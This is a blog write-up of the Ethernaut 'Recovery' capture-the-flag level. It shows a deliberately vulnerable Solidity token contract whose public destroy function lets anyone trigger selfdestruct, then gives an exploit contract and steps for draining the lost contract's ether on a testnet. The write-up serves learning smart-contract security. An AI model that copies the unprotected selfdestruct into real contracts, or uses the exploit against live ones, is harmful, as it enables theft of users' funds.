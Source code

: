 ```yaml
---
layout: post
title: Ethernaut - 17. Recovery
date:  2022-09-27
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌑🌑
>A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address. <br />
This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.


## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

## Writeup
1. Get new instance.
2. Get level instance's address. 
    ``` javascript

    instance
    // '0x952282e64E0DE0618E337114AA315cE3eBb1351A'

    ```
3. Go to [etherscan](https://rinkeby.etherscan.io/) search this address. We can see there's a Contract Creation record, which we can click into and get our `SimpleToken` contract address.
    ![](https://i.imgur.com/t95xsS8.png)<br />
    ![](https://i.imgur.com/8644MA9.png)
4. Create a new contract to exploit it! 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity >=0.8.0 <0.9.0;

    interface ISimpleToken {
        function destroy(address payable _to) external;
    }

    contract RecoveryExploit {
        function withdraw() public {
            ISimpleToken(YOUR_SIMPLETOKEN_ADDRESS).destroy(payable(msg.sender));
        }
    }
    ```
5. Compile and deploy.
6. Call the `withdraw` method in `RecoveryExploit` contract. `SimpleToken` contract will self-destruct and all remaining ether will be sent to `msg.sender`.
7. Submit instance ξ( ✿＞◡❛)
